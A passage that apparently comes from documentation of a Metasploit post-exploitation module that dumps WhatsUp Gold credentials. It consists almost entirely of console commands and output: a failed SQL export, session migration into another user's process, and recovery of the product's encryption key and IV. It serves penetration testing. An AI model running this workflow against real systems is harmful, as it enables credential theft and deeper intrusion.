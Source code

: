 ```
msf post(windows/gather/credentials/whatsupgold_credential_dump) > 
```

Windows Server 2019 with MSSQL SSPI authentication configured for SQL database -
migrate the session PID to an identity with permission to log on to the SQL server
before executing the `dump` action:

```
msf exploit(multi/handler) > use post/windows/gather/credentials/whatsupgold_credential_dump
msf post(windows/gather/credentials/whatsupgold_credential_dump) > set session 1
session => 1
msf post(windows/gather/credentials/whatsupgold_credential_dump) > dump

[*] Hostname WINNEBAGO IPv4 192.168.101.125
[*] WhatsUp Gold Build 22.1.39
[*] Init WhatsUp Gold crypto ...
[+] WhatsUp Gold Serial Number: 52CXF233MXGRDVB
[+] WhatsUp Gold Dynamic Encryption Salt
[+]     HEX: E9143AD84940A233
[+] WhatsUp Gold Composed AES256
[+]     KEY: 5B83224E3BFB363C841C6E27B6DF6B824ECD67BA06B4ED1918C0F738A60A8A75
[+]      IV: 5205DF3A92F346215308DD91DEAF69AE
[*] Init WhatsUp Gold SQL ...
[+] SolarWinds WhatsUp Gold SQL Database Connection Configuration:
[+]     Instance Name: WINNEBAGO\WHATSUP
[+]     Database Name: WhatsUp
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Performing export of WhatsUp Gold SQL database to CSV file
[*] Export WhatsUp Gold DB ...
[-] Post aborted due to failure: unknown: Sqlcmd: Error: Microsoft ODBC Driver 13 for SQL Server : Login failed for user 'CESIUM137\WINNEBAGO$'..
Sqlcmd: Error: Microsoft ODBC Driver 13 for SQL Server : Cannot open database "WhatsUp" requested by the login. The login failed..
[*] Post module execution completed
msf post(windows/gather/credentials/whatsupgold_credential_dump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID   PPID  Name                          Arch  Session  User                             Path
 ---   ----  ----                          ----  -------  ----                             ----
 0     0     [System Process]
 4     0     System                        x64   0
 [...]
 7908  1216  cmd.exe                       x64   1        CESIUM137\teenysupguy            C:\Windows\System32\cmd.exe
 [...]
meterpreter > migrate 7908
[*] Migrating from 2536 to 7908...
[*] Migration completed successfully.
meterpreter > bg
[*] Backgrounding session 1...
msf post(windows/gather/credentials/whatsupgold_credential_dump) > dump

[*] Hostname WINNEBAGO IPv4 192.168.101.125
[*] WhatsUp Gold Build 22.1.39
[*] Init WhatsUp Gold crypto ...
[+] WhatsUp Gold Serial Number: 52CXF233MXGRDVB
[+] WhatsUp Gold Dynamic Encryption Salt
```